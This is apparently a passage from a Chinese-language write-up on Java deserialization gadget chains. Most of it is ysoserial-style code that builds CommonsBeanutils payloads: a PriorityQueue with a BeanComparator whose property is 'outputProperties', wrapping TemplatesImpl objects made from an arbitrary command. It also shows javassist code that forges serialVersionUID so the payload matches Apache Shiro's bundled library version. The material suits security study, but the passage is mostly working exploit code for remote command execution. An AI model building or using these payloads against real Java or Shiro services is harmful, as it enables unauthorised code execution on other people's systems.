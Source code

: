 commons-collections:commons-collections:3.2.1 也有类似方法类

```java
public Queue<Object> getObject(String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);

    BeanComparator beanComparator = new BeanComparator(null, new ReverseComparator());
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
    queue.add("1");
    queue.add("1");

    Reflections.setFieldValue(queue, "queue", new Object[] { templates, templates });
    Reflections.setFieldValue(beanComparator, "property", "outputProperties");

    return queue;
}
```

## 0x08 CommonsBeanutilsObjectToStringComparator

同上

```java
public Queue<Object> getObject(String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    
    BeanComparator beanComparator = new BeanComparator(null, new ObjectToStringComparator());
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
    queue.add("1");
    queue.add("1");

    Reflections.setFieldValue(queue, "queue", new Object[] { templates, templates });
    Reflections.setFieldValue(beanComparator, "property", "outputProperties");

    return queue;
}
```

## 0x09 serialVersionUID  兼容性

Ref：https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html

ysoserial 中用的 commons-beanutils 组件版本是1.9.2，而 Shiro 自带的版本为 1.8.3，两个类发生了改动。序列化时会计算一个类的 serialVersionUID 写入数据流，在反序列化时如果环境中对应类计算 serialVersionUID 不同，则会报错。为了解决这个问题，我们可以将本地库换成相应版本，也可以手动修改serialVersionUID。

利用 javassist 建一个手动修改 serialVersionUID 的 BeanComparator。

```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(Class.forName("org.apache.commons.beanutils.BeanComparator")));
final CtClass ctBeanComparator = pool.get("org.apache.commons.beanutils.BeanComparator");
try {
    CtField ctSUID = ctBeanComparator.getDeclaredField("serialVersionUID");
    ctBeanComparator.removeField(ctSUID);
} catch (javassist.NotFoundException e) {
}
ctBeanComparator.addField(CtField.make("private static final long serialVersionUID = -3490850999041592962L;", ctBeanComparator));
final Comparator beanComparator = (Comparator) ctBeanComparator.toClass(new JavassistClassLoader()).newInstance();
ctBeanComparator.defrost();
```
